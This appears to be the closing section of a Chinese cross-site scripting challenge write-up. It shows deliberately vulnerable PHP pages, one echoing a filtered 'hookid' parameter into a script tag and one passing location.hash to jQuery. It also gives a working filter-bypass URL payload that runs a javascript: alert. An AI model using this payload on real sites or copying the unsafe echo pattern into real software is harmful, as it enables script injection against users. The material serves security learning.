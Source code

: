 # 20 The End #

```
<?php
header("Content-Type:text/html;charset=utf-8");
header("X-Content-Type-Options: nosniff");
header("X-FRAME-OPTIONS: DENY");
header("X-XSS-Protection: 0");

$hookid=str_replace("=","",htmlspecialchars($_GET["hookid"]));
$hookid=str_replace(")","",$hookid);
$hookid=str_replace("(","",$hookid);
$hookid=str_replace("`","",$hookid);
?>
<!DOCTYPE html>
<html>
<head>
<meta charset="utf-8">
<script>
hookid='<?php echo $hookid;?>';
</script>
<body>
</body>
</html>
```

限制太多了，很麻烦、
```
http://xianzhi.aliyun.com/xss20.php?hookid='%2b{valueOf:location, toString:[].join,0:'javascript:alert%25281%2529',length:1}%2b'

```

ie可用

# 番外 jquery#

```
<?php
header("Content-Type:text/html;charset=utf-8");
header("X-Content-Type-Options: nosniff");
header("X-FRAME-OPTIONS: DENY");
header("X-XSS-Protection: 0");
?>
<html>
<head>
<meta charset="utf-8">
<script src="https://code.jquery.com/jquery-3.2.1.js" integrity="sha256-DZAnKJ/6XZ9si04Hgrsxu/8s717jcIzLy3oi35EouyE=" crossorigin="anonymous"></script>
<script>
window.jQuery || document.write('<script src="http://xianzhi.aliyun.com/jquery.js"><\/script>');
</script>
</head>
<body>
<script>
    $(function(){
        try { $(location.hash) } catch(e) {}
    })

</script>
</body>
</html>
```
